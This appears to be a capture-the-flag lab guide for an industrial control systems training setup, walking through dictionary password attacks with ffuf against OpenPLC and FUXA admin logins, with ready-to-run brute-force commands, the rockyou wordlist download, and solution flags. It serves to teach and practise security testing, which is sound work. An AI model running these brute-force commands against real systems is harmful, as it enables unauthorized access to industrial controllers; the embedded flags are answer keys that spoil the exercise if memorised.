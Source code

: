 # 🔑 Password Attack Guide

## 📋 Overview
A dictionary attack is a common method used to crack passwords by systematically attempting all the words in a pre-defined list, or "dictionary," until the correct one is found.
This type of attack leverages the tendency of users to choose simple, common passwords, such as "password," "123456," or "qwerty." By using a comprehensive dictionary that includes common words, phrases, and variations, attackers can quickly break into accounts that are protected by weak or predictable passwords.

## 🎯 OpenPLC Password Attack
In this example we try to get the password of the OpenPLC login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).

### 🔍 Analyzing the Target
OpenPLC is running at [http://<DEVICE_IP>:8080/login](http://<DEVICE_IP>:8080/login).
After entering wrong credentials, this page is displayed:  
![Bad Credentials](doc/wrong_login.png)

When the browser's built-in developer console is open during the request, we can see what is sent and received when we try to login (e.g., in Chrome with F12):  
![Login Request](doc/login_request.png)

And the sent payload:  
![Login Payload](doc/login_payload.png)

### 🛠️ Setup Steps
1. Download ffuf:
   ```sh
   mkdir ~/ffuf
   cd ~/ffuf
   wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
   tar xf ffuf_2.1.0_linux_amd64.tar.gz
   ```

2. Get a wordlist:
   ```sh
   wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
   ```

### 🚀 Running the Attack
Start ffuf with:
- `-w ./rockyou.txt`: The downloaded wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"`: Information from the login request
- `-d "username=admin&password=FUZZ"`: Information from the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login`: The request URL
- `-fs 4561`: The length of the response on wrong login

```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info, start it without parameters:
```sh
./ffuf
```

## 🎯 Find the Flag
The flag has the format `CybICS(flag)`.

**💡 Hint**: The flag is part of the user information.

<details>
  <summary><strong><span style="color:orange;font-weight: 900">🔍 Solution</span></strong></summary>
  
  <div style="color:orange;font-weight: 900">
    🚩 Flag: CybICS(0penPLC)
  </div>
  
  ![Flag OpenPLC Password](doc/flag.png)
</details>

## 🎯 FUXA Password Attack
Use the previous knowledge to fuzz the admin login of FUXA.
FUXA is running at [http://<DEVICE_IP>:1881](http://<DEVICE_IP>:1881).

### 🎯 Find the Flag
The flag has the format `CybICS(flag)`.

**💡 Hint**: The flag appears after successful login on the HMI.

<details>
  <summary><strong><span style="color:orange;font-weight: 900">🔍 Solution</span></strong></summary>
  
  Run the attack:
  ```sh
  ./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "FUZZ"}' -raw -u http://$DEVICE_IP:1881/api/signin -fr "error"
  ```

  <div style="color:orange;font-weight: 900">
    🚩 Flag: CybICS(FU##A)
  </div>
  
  ![Flag FUXA Password](doc/flag2.png)
</details>